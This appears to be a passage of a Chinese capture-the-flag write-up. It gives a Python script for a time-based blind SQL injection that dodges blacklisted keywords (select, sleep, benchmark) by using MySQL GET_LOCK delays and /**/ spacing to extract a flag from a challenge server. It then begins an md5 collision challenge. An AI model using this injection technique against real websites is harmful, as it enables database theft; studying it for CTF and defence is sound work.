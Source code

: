 以及注入点 `/article.php?id=2`

跑黑名单，发现select、sleep和benchmark都banned，解法是通过GET_LOCK


> GET_LOCK(str,timeout)
> Tries to obtain a lock with a name given by the string str, using a timeout of timeout seconds. A negative timeout value means infinite timeout. The lock is exclusive. While held by one session, other sessions cannot obtain a lock of the same name.

因此尝试`/article.php?id=2' and (get_lock('vvvv',10)) #`可以成功延时，注意到同表做列查询时不需要用select，因此有如下脚本：

```python
import requests
import time
import string
import urllib


def sleepcms():
    base_url = "http://114.55.36.69:8007/article.php?id="
    dic = string.ascii_letters+string.digits+string.punctuation
    flag = ""
    cur = 1
    while True:
        for i in dic:
            payload = "1'/**/and/**/(if(substr(content,{pos},1)='{char}',get_lock('nonce',3),0))/**/#"
            url = base_url+urllib.parse.quote(payload.format(pos=cur,char=i))
            try:
                res = requests.get(url,timeout=2)
            except requests.exceptions.ConnectTimeout:
                break
            except requests.exceptions.ReadTimeout:
                flag += str(i)
                cur += 1
                print(flag)
                break

if __name__ == '__main__':
    sleepcms()
```

运行得到flag：`flagis{Flag{C221e22A28b933f103f0f88caB68b79b}}`，改成小写提交最里面括号的内容


# md5（PHP）

要求`$_POST['param1']!==$_POST['param2'] && md5($_POST['param1'])===md5($_POST['param2'])`，强网杯原题，参考[writeup](https://xz.aliyun.com/t/2232)。

指定param1和param2相同的开头，这里以"1"为例:

```bash
echo 1>init.txt
```
